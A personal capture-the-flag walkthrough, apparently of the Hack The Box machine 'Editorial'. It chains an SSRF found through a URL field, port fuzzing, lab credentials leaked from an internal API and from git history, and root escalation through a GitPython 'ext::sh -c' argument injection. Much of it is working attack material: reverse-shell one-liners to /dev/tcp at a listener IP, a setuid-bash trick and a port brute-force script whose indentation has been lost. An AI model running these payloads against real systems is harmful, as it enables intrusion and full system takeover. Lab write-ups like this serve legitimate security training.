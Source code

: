 - nmap revealed http and tcp port.
- http running nginx
- vi /etc/hosts to add editorial.htb
- tried dirbuster, dirsearch and gobuster but got nothing.
- we see a place for user input and on burp suite we catch the request.
- can upload file but it does nothing (returns an image)
- but we see a location to enter a url
- so with netcat listening on a port we put our ip and port there
- we get a response so we know it is vulnerable to server side request forgery (SSRF)
- we enumerate the localhost port 80 to see if any local websites. we dont get much but we can brute force and check
- send to intrude and select the IP region and use /usr/share/seclists/DNS/Discovery/Infrastructure/common http proxies wordlist.
- we notice one response that is slightly different a returns something other than the image
- alternatively (and also burp suite is slower for this brute force) we can use ffuf.
- copy the request with the ip and the port number listed like this :
```
127.0.0.1:FUZZ
```

- and pass the command :

```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fr "jpeg" # or -fs 62 since that was the default size
```

- we get a file which when passing file command we know its a JSON file. Can use jq to make it more readable

```
cat <file_name> | jq .
```

- this file shos different endpoints which we can try to access with our SSRF. We end up finding another file in this endpoint:
```
/api/latest/metadata/messages/authors
```

- so we added this url in our SSRF exploit :

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

- we receive a file:
- we find the credentials of dev in the output

```
Username: dev
Password: dev080217_devAPI!@
```

- can ssh into machine with this credentials and get user flag.

## Lateral Movement
- looking at the file where user flag is we see a folder apps.
- looking into it and passing ls -al we see a hidden .git repository
- can enumerate with git

```
git status # shows some files were deleted
git logs
```

- alternatively I read the file logs and noted a "Downgrading prod to dev"
- i also check /etc/passwd for prod and see he is a user.
- furthermore since sudo -l didnt work maybe this prod user could have something we could run as root to get root access
- pased git show on the commit id in the log to see what was changed and from there we find prods credentials were deleted.

```
Username: prod
Password: 080217_Producti0n_2023!@
```

- logging into prod with su, we check sudo -l to see there is a command we could run:
```
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
- we also see the env_reset and secure path has been set so the user is quite secure
- we read the file clone_prod_change.py:

```
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
	
- we see the intput argument to pass some command.
- the main thing to catch is 

```
from git import Repo
```

- on checking for exploits we find one with the following exploit:

```
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
- we see that when 'ext::sh -c' is passed we can  get some kind of RCE.
- on passing this command as an argument we find that it created /tmp/pwned file showing that this is being exploited. I didn't do this but you can do to test.
- we attempt to input our IP and port to get a reverse shell. 

```
echo "bash -i >& /dev/tcp/10.10.14.25/9998 0>&1" >/tmp/pwned
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/pwned'
```
- while i listened on the port
- **alternatively you can pass the command directly instead of creating /tmp/pwned**

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% -c% "bash% -i% >&% /dev/tcp/10.10.14.25/9999% 0>&1"'
```

- we input this command as exploit but add % wherever there is a space:

```
ash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'
```
	
- **IPPSec Alternate**
- we find the location of bash with which bash command and copy it to /tmp
- we then use our exploit to give it root ownership and add a setuid bit so we can execute it.

```
which bash #/usr/bin/bash
cp /usr/bin/bash /tmp
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chown% root:root% /tmp/bash'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% 4755% /tmp/bash' # gives it the setuid bit
```
		
- finally we privilege escalate with :

```
/tmp/bash -p # without -p it won't give root shell as bash inbuilt security lowers privileges of setuid executables unless specified
```
	
- we gain root access

-------
## Python code to brute force ports
- code:

```
#!/usr/bin/python3
import requests
with open("a", 'wb') as f:
f.write(b'')
for port in range(1, 65535):
with open("a", 'rb') as file:
data_post = {"bookurl": f"http://127.0.0.1:{port}"}
data_file = {"bookfile": file}
try:
r = requests.post("http://editorial.htb/upload-cover",
files=data_file, data=data_post)
if not r.text.strip().endswith('.jpeg'):
print(f"{port} --- {r.text}")
except requests.RequestException as e:
print(f"Error on port {port}: {e}")
```



